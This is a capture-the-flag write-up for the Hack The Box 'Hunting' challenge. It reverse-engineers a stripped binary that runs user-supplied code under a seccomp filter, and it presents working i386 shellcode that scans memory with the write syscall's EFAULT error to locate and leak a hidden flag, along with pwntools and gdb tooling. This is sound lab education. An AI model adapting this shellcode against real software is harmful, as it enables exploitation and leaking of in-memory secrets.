





# Hunting - hackthebox writeup

#### 1 Jul 2021

### sections:
- [overview](#overview)
- [disassembling](#disassembling)
- [debugging](#debugging)
- [solution](#solution)

## overview

Challenge hint:
> I've hidden the flag very carefully, you'll never manage to find it! NOTE: Goal is to find the flag, NOT a shell.

`file` tells us hunting is a 32 bit stripped ELF:

> hunting: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=2df7efc7d5a8a8e75a178f568bb114902c6955fd, for GNU/Linux 3.2.0, stripped

Let's begin by running the executable to see what it does.

    $ ./hunting
    ffffff
    zsh: segmentation fault  ./hunting

It waits for input then immediately seg faults; great. Let's load it into binaryninja and figure out why that's happening.

----------

## disassembling

The first thing that stands out is the reference to a flag placeholder at 0x4080. Its safe to assume that, on the challenge server, this will be replaced with the real flag.



The first thing main does is call a function I'll rename get_random, which returns a random int such that `0x5fffffff < (rand() << 16) < 0xf7000000`



main then uses that random value to create a new 0x1000 byte memory page with mmap, which for some reason allows you to pick what address to create it at.

> mmap()  creates  a  new  mapping  in  the virtual address space of the calling process.  The
       starting address for the new mapping is specified in addr.  The  length  argument  specifies
       the length of the mapping (which must be greater than 0).

The flag is then copied from 0x4080 to the new page. Then, 0x4080 is overwritten with null bytes, and both the pointer to the new page and later the random int are set to 0. So, there's nothing left on the stack to point us to the flag in the new page.



Then, we call a short function, sub_1259, that modifies some security related behavior of the process with `prctl()`. The most interesting thing here is that you can specify a list of syscalls to restrict using arguments 0x16 and 0x2, PR_SET_SECCOMP and SECCOMP_MODE_FILTER respectively. Arg 3 contains a pointer to a filter struct, which we can dump with [seccomp-tools](https://github.com/david942j/seccomp-tools):

```
$ seccomp-tools dump ./hunting
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x20 0x00 0x00 0x00000000  A = sys_number
 0002: 0x35 0x0a 0x00 0x40000000  if (A >= 0x40000000) goto 0013
 0003: 0x15 0x09 0x00 0x0000000b  if (A == execve) goto 0013
 0004: 0x15 0x08 0x00 0x00000166  if (A == execveat) goto 0013
 0005: 0x15 0x07 0x00 0x00000127  if (A == openat) goto 0013
 0006: 0x15 0x06 0x00 0x00000005  if (A == open) goto 0013
 0007: 0x15 0x05 0x00 0x00000006  if (A == close) goto 0013
 0008: 0x15 0x04 0x00 0x00000008  if (A == creat) goto 0013
 0009: 0x15 0x03 0x00 0x00000056  if (A == uselib) goto 0013
 0010: 0x15 0x02 0x00 0x00000002  if (A == fork) goto 0013
 0011: 0x15 0x01 0x00 0x000000be  if (A == vfork) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

Running any of these syscalls will kill the process. This is why the description hints that we shouldn't try to get a shell!

Finally, main will call malloc, read 0x3c bytes from stdin to this new buffer, then call the buffer as if it was code. Thus, the seg fault. So, we have to write some shellcode to read the flag without calling execve or opening the binary.



-------------------

## debugging

Now remember, this binary is stripped, so setting initial break points is going to be annoying. The first thing I do with these challenges is add a debugging symbol for the main function, at a minimum. First I calculate main's offset within the .text section. I get the address of main (0x1374) from my disassembler, and the start of .text (0x1120) from `objdump -h`. The difference is 0x254. Then we can use `objcopy` to add a function debugging symbol to the binary, as described [on stack overflow](https://stackoverflow.com/questions/5488322/adding-own-symbols-for-file-in-gdb). (I have to google this answer every time.)

    objcopy hunting --add-symbol main=.text:0x254,function,global hunting-sym

We can now happily set breakpoints within the main function.

To test our shellcode execution, I wrote a simple push/pop sequence along with some accompanying python code to assemble it using the asm function from pwntools. Just redirect stdout to a file and then we can use it in gdb.

```python
#!/usr/bin/env python3

from pwn import *
import re

shellcode = """
push eax
pop eax
"""

shellcode = re.sub(";.*\n", "\n", shellcode) # remove comments

shellcode = asm(shellcode, arch = 'i386', os = 'linux')

if len(shellcode) > 0x3c:
    raise Exception('shellcode too long', len(shellcode))

print("shellcode len:", len(shellcode), file=sys.stderr)
print(disasm(shellcode), file=sys.stderr)

sys.stdout.buffer.write(shellcode)
```

Now we're ready to test. Let's launch `gdb hunting-sym`, set a breakpoint at the call eax instruction main+217, and run with the shellcode input.

gdb hits the breakpoint, and we can step into our code with `si` and see the push/pop operations as expected. However, when we try to execute the next instruction with `ni` we get a seg fault:

```
→  0x5655a1a0                  push   eax
   0x5655a1a1                  pop    eax
   0x5655a1a2                  add    BYTE PTR [eax], al
   0x5655a1a4                  add    BYTE PTR [eax], al
──────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "hunting-sym", stopped 0x5655a1a0 in ?? (), reason: SIGSEGV
```

I'm using the gdb extension [GEF](https://gef.readthedocs.io/en/master/) which includes a command `vmmap` that displays an overview memory pages. You can see here that the heap, where our shellcode is loaded, is not executable even though the challenge clearly requires this.

```
gef➤  vmmap
0x5655a000 0x5657c000 0x00000000 rw- [heap]
```

I googled this issue and found some people suggesting to use a 32 bit machine, but that didn't work for me. Luckly, GEF includes an `mprotect` command which can set a memory region to rwx. So I ran `mprotect 0x5655a000` and my push/pop executed just fine. Now we need to figure out how to find the randomly placed memory page without a pointer to it.

While searching for a way to enumerate mapped memory and browsing random [syscalls](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit), I found that the access syscall contains the error:

> EFAULT pathname points outside your accessible address space.

This took me a while to find because I assumed that trying to read from memory that doesn't exist would cause a crash. It seems that, probably, any syscall that takes a buffer pointer can generate this EFAULT error. Write also does this, and we'll need it to output the flag later, so let's pass a bad buffer address to write and see what happens.

```nasm
mov eax, 0x4        ; syscall write
mov ebx, 0x1        ; fd stdout
mov ecx, 0x41414141 ; *buf
mov edx, 0x25       ; len
int 0x80
```

Great, it doesn't crash, and the syscall returns 0xfffffff2 in eax which must be the EFAULT error code. Now we can try looping through the possible page addresses, which we know from the constraints in the get_random function.

-----------

## solution

```nasm
_start:
    mov ecx, 0x5fff0000     ; minimum start address - 0x10000
    xor ebx, ebx
    inc ebx                 ; fd stdout
    push 0x25               ; flag len
    pop edx

loop:
    push 0x4                ; syscall write
    pop eax
    add ecx, 0x10000        ; minimum page difference because of rand << 16
    int 0x80
    cmp eax, 0xfffffff2     ; EFAULT
    jz loop                 ; loop if EFAULT
```

Run this shellcode and the program will output our test flag: HTB{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}. Then we can run the shellcode against the challenge server to get the real flag.



And if you want to be fancy, you could append an exit routine to eliminate the seg fault:

```nasm
exit:
    xor eax, eax
    mov ebx, eax
    inc eax
    int 0x80
```
